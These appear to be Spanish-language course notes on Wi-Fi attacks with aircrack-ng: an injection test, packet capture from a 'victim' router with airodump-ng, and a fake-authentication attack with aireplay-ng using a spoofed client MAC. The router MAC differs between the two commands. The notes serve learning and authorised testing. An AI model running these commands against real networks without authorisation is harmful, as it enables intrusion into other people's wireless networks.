



# Haremos una prueba de inyeccion

`aireplay-ng`

Podemos ver las opciones de ataques

Por lo que podemos utilizar el parametro como numero(-1, -2, -3, etc) o con dos guiones y el nombre del ataque(--chopchop, --arpreplay, --deauth, ect)

Miraremos si la red es inyectable

`aireplay-ng --test wlan0mon`

Nos arroja un aviso de que la inyeccion esta funcionando

 

El comando para capturar paquetes de una red es 

`airodump-ng -c 2 --bssid C0:C1:0B:C0:BB:C3 -w captura wlan0mon`

* -c 2 seteo el canal en este caso 2
* -bssid [6 digitos hexa] seteamos la mac del router victima
* -w captura guardamos en un archivo en este caso captura
* wlan0mon la interfaz que utilizaremos para hacer el ataque

Para hacer un ataque asi es necesario que halla al menos un cliente conectado y que este teniendo interaccion con el AP

Se deja corriendo esto y en otra ventana de terminal hacemos una autenticacion falsa con

`aireplay-ng -1 0 -e Platzo -a C0:C1:C0:0B:BB:C3 -h 5C:93:A2:BB:40:11 wlan0mon`

* -1 es el ataque que haremos en este caso fakeauth y 0 es el tiempo que tiene que tiempo para intentar reasociarse
* -e es la red a la que estoy apuntando(nombre) 'Platzo'
* -a la mac del AP
* -h la mac del cliente del AP
* wlan0mon la interfaz por la que saldra

